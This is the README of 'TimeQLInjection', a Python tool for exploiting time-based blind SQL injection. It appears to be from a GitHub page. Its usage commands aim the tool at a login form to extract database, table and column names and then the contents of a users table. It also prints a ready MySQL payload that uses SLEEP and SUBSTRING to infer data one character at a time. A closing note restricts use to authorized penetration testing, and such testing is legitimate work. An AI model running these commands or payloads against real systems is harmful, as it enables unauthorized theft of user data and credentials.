 # TimeQLInjection

**TimeQLInjection** is a Python-based tool for exploiting time-based blind SQL injection vulnerabilities. It automates the process of extracting sensitive information like database names, tables, columns, and data from vulnerable web applications.

## Features

- Supports both **GET** and **POST** HTTP methods.
- Dynamically determines the length of the target data.
- Extracts:
  - Database names
  - Table names
  - Column names
  - Data from specific tables and columns
- Configurable payloads for flexibility.
- Works with time delays to infer information.

## Requirements

- Python 3.7+
- `requests` library

Install the required library:
```bash
pip install requests
```

## Usage
Run the script with the following parameters:
```
python timeqli.py --url <URL> --method <HTTP_METHOD> --payload <PAYLOAD_FILE> --delay <DELAY_IN_SECONDS> --mode <MODE> [--table <TABLE>] [--column <COLUMN>]
```

### Extract Database Name
```python timeqli.py --url "http://example.com/login" --method POST --payload payload.txt --delay 5 --mode database
```

### Extract Table Names
```
python timeqli.py --url "http://example.com/login" --method POST --payload payload.txt --delay 5 --mode tables
```

### Extract Column Names
```
python timeqli.py --url "http://example.com/login" --method POST --payload payload.txt --delay 5 --mode columns --table users
```

### Extract Data
```
python timeqli.py --url "http://example.com/login" --method POST --payload payload.txt --delay 5 --mode data --table users --column username
Payload File Example (payload.txt)
admin' AND (SELECT IF(SUBSTRING(DATABASE(),<position>,1)='<character>', SLEEP(5), 0)) AND '1'='1
Replace <position> and <character> dynamically in the script.
```

#### Notes
- Use this tool responsibly and only with proper authorization.
- This tool is intended for educational and ethical penetration testing purposes.

